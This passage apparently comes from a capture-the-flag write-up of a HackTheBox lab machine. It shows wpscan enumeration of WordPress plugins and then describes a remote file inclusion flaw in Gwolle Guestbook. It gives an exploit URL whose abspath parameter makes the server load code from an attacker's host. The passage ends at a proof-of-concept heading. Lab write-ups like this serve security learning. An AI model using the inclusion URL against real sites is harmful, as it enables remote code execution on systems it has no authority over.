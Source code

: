 ```
...
[+] We found 3 plugins:

[+] Name: akismet - v4.0.3
 |  Last updated: 2018-05-26T17:14:00.000Z
 |  Location: http://10.10.10.88/webservices/wp/wp-content/plugins/akismet/
 |  Readme: http://10.10.10.88/webservices/wp/wp-content/plugins/akismet/readme.txt
[!] The version is out of date, the latest version is 4.0.6

[+] Name: brute-force-login-protection - v1.5.3
 |  Latest version: 1.5.3 (up to date)
 |  Last updated: 2017-06-29T10:39:00.000Z
 |  Location: http://10.10.10.88/webservices/wp/wp-content/plugins/brute-force-login-protection/
 |  Readme: http://10.10.10.88/webservices/wp/wp-content/plugins/brute-force-login-protection/readme.txt

[+] Name: gwolle-gb - v2.3.10
 |  Last updated: 2018-05-12T10:06:00.000Z
 |  Location: http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/
 |  Readme: http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/readme.txt
[!] The version is out of date, the latest version is 2.5.2

[+] Enumerating installed themes (only ones marked as popular) ...
...

```

While none of those appear vulnerable to anything, looking at the readmes for each reveals something interesting… from `http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/readme.txt`:

```

== Changelog ==

= 2.3.10 =
* 2018-2-12
* Changed version from 1.5.3 to 2.3.10 to trick wpscan ;D

```

So, this box author definitely likes to troll.

## Shell as www-data

### RFI in gwolle-gb

There’s a [RFI vulnerability in Gwolle Guestbook v 1.5.3](https://www.htbridge.com/advisory/HTB23275). In this case, visiting `http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://ip/path` will include that file.

### POC

